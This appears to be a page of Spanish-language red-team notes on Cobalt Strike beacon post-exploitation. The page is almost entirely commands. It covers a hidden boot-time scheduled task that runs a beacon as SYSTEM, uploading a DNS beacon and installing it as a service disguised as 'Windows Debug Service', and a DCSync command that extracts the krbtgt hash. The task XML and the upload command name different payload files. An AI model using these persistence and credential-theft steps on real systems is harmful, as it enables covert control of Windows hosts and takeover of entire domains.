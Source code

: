 **Tarea Programada**
> Creas un task.xml en tu equipo.

```xml
<Task xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
	<Triggers>
		<BootTrigger>
			<Enabled>true</Enabled>
		</BootTrigger>
	</Triggers>
	<Principals>
		<Principal>
			<UserId>NT AUTHORITY\SYSTEM</UserId>
			<RunLevel>HighestAvailable</RunLevel>
		</Principal>
	</Principals>
	<Settings>
		<AllowStartOnDemand>true</AllowStartOnDemand>
		<Enabled>true</Enabled>
		<Hidden>true</Hidden>
	</Settings>
	<Actions>
		<Exec>
			<Command>C:\Windows\System32\beacon_x64.exe</Command>
		</Exec>
	</Actions>
</Task>
```

```powershell
beacon> cd C:\Windows\System32
beacon> upload C:\Payloads\dns_x64.exe
beacon> schtaskscreate \Beacon XML CREATE #Subes el XML
```


**Servicio de Windows**

```powershell
beacon> cd C:\Windows\System32\
beacon> upload C:\Payloads\dns_x64.svc.exe
beacon> mv dns_x64.svc.exe debug_svc.exe

beacon> sc_create dbgsvc "Debug Service" C:\Windows\System32\debug_svc.exe "Windows Debug Service" 0 2 3
```

- Verificar que se creo correctamente
```powershell
beacon> sc_qc dbgsvc
```


## Sacar Hashes

```powershell
beacon> dcsync contoso.com CONTOSO\krbtgt
```


